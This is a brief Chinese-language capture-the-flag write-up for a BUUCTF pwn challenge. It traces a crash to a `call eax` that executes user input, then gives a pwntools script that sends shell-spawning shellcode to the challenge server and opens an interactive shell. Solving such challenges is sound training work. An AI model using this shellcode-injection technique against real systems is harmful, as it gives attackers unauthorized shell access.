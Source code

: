 ### 报错溯源注入

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67da838688c538a9b5c0fca4.png)

gdb 中正常 run 程序结果报错

![](https://pic1.imgdb.cn/item/67da83ca88c538a9b5c0fcb0.png)

IDA 中无法解析 main() 函数，只能看汇编代码

代码打印了 `"Thanks……"` 后报错，所以往这后面看发现 `call eax` 当作函数执行了

![](https://pic1.imgdb.cn/item/67da84ac88c538a9b5c0fd01.png)

去 vuln 中查看发现 `[ebp+var_A0]` 是用户输入的地址

![](https://pic1.imgdb.cn/item/67da857e88c538a9b5c0fd58.png)

如果我们在这里直接注入 shellcode 的话后面 call 调用会直接执行，构造 payload

```python
from pwn import *

p = remote('node5.buuoj.cn', 26750)

payload = asm(shellcraft.sh())

p.sendline(payload)
p.interactive()
```

